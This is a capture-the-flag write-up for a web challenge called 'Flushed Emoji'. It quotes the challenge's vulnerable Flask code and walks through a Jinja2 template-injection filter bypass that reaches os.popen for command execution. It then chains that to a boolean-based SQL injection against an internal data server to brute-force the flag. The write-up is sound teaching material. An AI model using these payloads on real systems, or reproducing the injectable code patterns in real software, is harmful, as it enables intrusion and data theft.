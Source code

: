 # Flushed Emoji

```
score: 198      
solved: 49/xxx      
difficulty: medium      
tags: web, ssti, sqli       
```

## Problem

Flushed emojis are so cool! Learn more about them here!

[FlushedEmojis.zip](./FlushedEmojis.zip)

## Read source code
Have 2 sources code
1. main-server
- Have only endpoint(/login) 

```py
    if('.' in password):
      return render_template_string("lmao no way you have . in your password LOL");

    r = requests.post('[Other server IP]', json={"username": alphanumericalOnly(username),
    "password": alphanumericalOnly(password)}); 
    if(r.text == "True"):
      return render_template_string("OMG you are like so good at guessing our flag I am lowkey jealoussss.");
    return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");
```
- templates/login.html


```html
    {% if error %}
        <p class="error"><strong>Error:</strong> {{ error }}
    {% endif %}
```
Username and password are sent to another server and are filted by alphanumericalOnly But can see they use render_template_string. Can a SSTI -> Flask use Jinja2 -> Send password '7'*7 and response is 7777777 -> bypass filter '.' 


2. data-server

```py
app.route('/runquery', methods=['POST'])
def runquery():
  request_data = request.get_json()
  username = request_data["username"];
  password = request_data["password"];

  print(password);
  
  cur.execute("SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'");

  rows = cur.fetchall()
  if(len(rows) > 0):
    return "True";
  return "False";
```
-  In the endpoint /runquery has the function of login through method post but It exists a boolean-base sqli.
- data=flag' or password like '%' -- -     => True
- data=flag' or password like 'A%' -- -    => False

## Exploit 
1. Flow
SSTI -> RCE  -> Request data-server -> boolean-base sqli. 

2. SSTI     
### Bypass filter
[Read link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#user-content-jinja2---filter-bypass)

I use config|attr('items')() --> Pass

### SSTI to RCE 
{{ (config|attr('from_object'))('os') }}        
{{((config|attr('__class__')|attr('__init__')|attr('__globals__'))['os']|attr('popen'))('whoami')|attr('read')()}} -> user

3. RCE to SQLI
### Run a command python
```py
import requests; 
print(requests.post("http://172.24.0.8:8080/runquery", headers={"Content-Type": "application/json"}, data=bytes.fromhex("{Hexdata}").decode("utf-8")).text)
```
For bypass fil;ter '.' use \x2e and ' = \x27, " = \x22

### Run sqli 
flag' and password like 'char%' ESCAPE '@' -- - -> encode hex
Use ESCAPE '@' for char '_' not is a Wildcard (like sql) [readmore](https://stackoverflow.com/questions/5139770/escape-character-in-sql-server#answer-14518639)

Result is True or False.

If result char sqli is '_', not sure if it's correct [readmore](https://www.w3schools.com/mysql/mysql_wildcards.asp)


### Payload is:
```py
query = "flag' and password like 'LITCTF%' ESCAPE '@' -- -"
query = json.dumps({"username": query, "password": "b"}).encode().hex()
query = '''{{((config|attr('__class__')|attr('__init__')|attr('__globals__'))['os']|attr('popen'))('python3 -c \\x27import requests; print(requests\\x2epost(\\x22http://172\\x2e24\\x2e0\\x2e8:8080/runquery\\x22, headers={\\x22Content-Type\\x22: \\x22application/json\\x22}, data=bytes\\x2efromhex(\\x22''' +query  + '''\\x22)\\x2edecode(\\x22utf-8\\x22))\\x2etext)\\x27')|attr('read')()}}'''
data= {"username":'a', "password": query}
```
## Brute Forces flag 

Full solving code at [Flushed_Emoji.py](./Flushed_Emoji.py)

We got the flag: `LITCTF{flush3d_3m0ji_o.0}`.
